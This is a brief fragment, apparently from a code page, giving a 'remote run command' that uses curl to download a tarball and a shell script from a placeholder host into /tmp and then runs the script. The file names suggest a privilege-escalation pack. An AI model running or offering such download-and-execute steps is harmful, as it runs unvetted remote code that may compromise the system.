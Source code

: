 # Remote run command
```bash
cd /tmp
curl http://null:null/PE_Pack.tar.gz > PE_Pack.tar.gz 
curl http://null:null/RunLinuxPE.sh > RunLinuxPE.sh && chmod u+x RunLinuxPE.sh && ./RunLinuxPE.sh
```